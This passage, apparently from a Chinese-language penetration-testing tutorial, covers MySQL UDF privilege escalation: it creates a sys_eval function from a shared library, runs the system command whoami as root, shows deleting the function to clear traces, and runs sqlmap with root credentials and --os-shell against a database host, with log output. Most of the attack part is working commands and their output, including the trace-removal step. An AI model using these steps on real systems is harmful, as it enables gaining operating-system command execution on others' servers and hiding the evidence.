```
                 U sysconf
                 U system
                 U waitpid


```

2. 创建`sys_eval`函数

```
mysql> create function sys_eval returns string soname "mysqludf.so";
Query OK, 0 rows affected (0.03 sec)
mysql>
```

3. 函数操作

```
# 调用函数
mysql> select sys_eval('whoami');
+--------------------+
| sys_eval('whoami') |
+--------------------+
| root               |
+--------------------+
1 row in set (0.03 sec)

# 查看函数
mysql> select * from mysql.func;
+----------+-----+-------------+----------+
| name   | ret | dl     | type   |
+----------+-----+-------------+----------+
| sys_eval |  0 | mysqludf.so | function |
+----------+-----+-------------+----------+
1 row in set

# 删除函数（清除痕迹）,如果要删除函数,必须udf文件还存在plugin目录下
drop function sys_eval;
或
delete from mysql.func where name='sys_eval';
```

### 2.2 利用sqlmap

####全自动化

```
sqlmap.py -d "mysql://root:root@172.20.10.9:3306/mysql" --os-shell

...
[11:53:40] [INFO] connection to MySQL server '172.20.10.9:3306' established
[11:53:40] [INFO] testing MySQL
[11:53:40] [INFO] confirming MySQL
[11:53:40] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[11:53:40] [INFO] fingerprinting the back-end DBMS operating system
[11:53:40] [INFO] the back-end DBMS operating system is Linux
[11:53:40] [INFO] testing if current user is DBA
[11:53:40] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[11:53:45] [INFO] checking if UDF 'sys_exec' already exist
[11:53:45] [INFO] checking if UDF 'sys_eval' already exist
[11:53:50] [INFO] detecting back-end DBMS version from its banner
```